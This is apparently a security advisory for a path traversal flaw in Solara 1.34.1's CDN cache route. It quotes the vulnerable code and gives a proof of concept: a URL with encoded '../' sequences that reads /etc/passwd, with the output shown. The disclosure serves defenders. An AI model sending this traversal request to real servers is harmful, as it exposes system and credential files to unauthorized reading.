 ```yaml
---
layout: post
title:  "Local File Inclusion in Solara"
date:  2024-07-09 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Local File Inclusion in Solara

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> 1.34.1


### Summary

A local file inclusion is present in the Solara when requesting resource files under the `/{cdn_helper.cdn_url_path}/<path:path>` route.

### Details

The endpoint [cdn](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/flask.py#L215) is used to load resource file from cdn. However when resource file is cached, it will load files from local file system directly. 

The [`cdn` endpoint](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/flask.py#L215):

```
@blueprint.route(f"/{cdn_helper.cdn_url_path}/<path:path>")
def cdn(path):
    if not allowed():
        abort(401)
    cache_directory = settings.assets.proxy_cache_dir
    content = cdn_helper.get_data(Path(cache_directory), path)
    mime = mimetypes.guess_type(path)
    return flask.Response(content, mimetype=mime[0])
```

The [`get_data`](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/cdn_helper.py#L38) calls [`get_from_cache`](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/cdn_helper.py#L24) to lookup cached files, it  concatenates `path` into `base_cache_dir` to get cached path directly and load the content afterwards. The `path` comes from the `<path:path>` part of `cdn` route. In this case, when path is `..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`, attacks can use path traversal to read any files in local file system.

The function [`get_data`](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/cdn_helper.py#L38) and [`get_from_cache`](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/cdn_helper.py#L24)

```
def get_data(base_cache_dir: pathlib.Path, path):
    parts = path.replace("\\", "/").split("/")
    store_path = path if len(parts) != 1 else pathlib.Path(path) / "__main.js"

    content = get_from_cache(base_cache_dir, store_path)
    if content:
        return content

    url = get_cdn_url(path)
    response = requests.get(url)
    if response.ok:
        put_in_cache(base_cache_dir, store_path, response.content)
        return response.content
    else:
        logger.warning("Could not load URL: %r", url)
        raise Exception(f"Could not load URL: {url}")

def get_from_cache(base_cache_dir: pathlib.Path, path):
    cache_path = base_cache_dir / path
    try:
        logger.info("Opening cache file: %s", cache_path)
        return cache_path.read_bytes()
    except FileNotFoundError:
        pass
```

### PoC

1. Install Solara:

    ```
    pip install solara
    ```
2. Create `sol.py` following [official docs](https://github.com/widgetti/solara/tree/master?tab=readme-ov-file#first-script):
    ```
     import solara

    # Declare reactive variables at the top level. Components using these variables
    # will be re-executed when their values change.
    sentence = solara.reactive("Solara makes our team more productive.")
    word_limit = solara.reactive(10)


    @solara.component
    def Page():
        # Calculate word_count within the component to ensure re-execution when reactive variables change.
        word_count = len(sentence.value.split())

        solara.SliderInt("Word limit", value=word_limit, min=2, max=20)
        solara.InputText(label="Your sentence", value=sentence, continuous_update=True)

        # Display messages based on the current word count and word limit.
        if word_count >= int(word_limit.value):
            solara.Error(f"With {word_count} words, you passed the word limit of {word_limit.value}.")
        elif word_count >= int(0.8 * word_limit.value):
            solara.Warning(f"With {word_count} words, you are close to the word limit of {word_limit.value}.")
        else:
            solara.Success("Great short writing!")


    # The following line is required only when running the code in a Jupyter notebook:
    Page()
    ```
3. Start the solara server.

    ```
    solara run sol.py
    > Solara server is starting at http://localhost:8765
    ```

4. Open the url: `http://127.0.0.1:8765/_solara/cdn/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`, the output is the contents of the `/etc/passwd` file:

    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    ...
    ```

    ![poc](/assets/cve/solara.png)

### Impact

Any file on the backend filesystem can be read by an attacker with access to the solara server directly(If reverse proxy server such as nginx is used, the path parameter will be blocked).

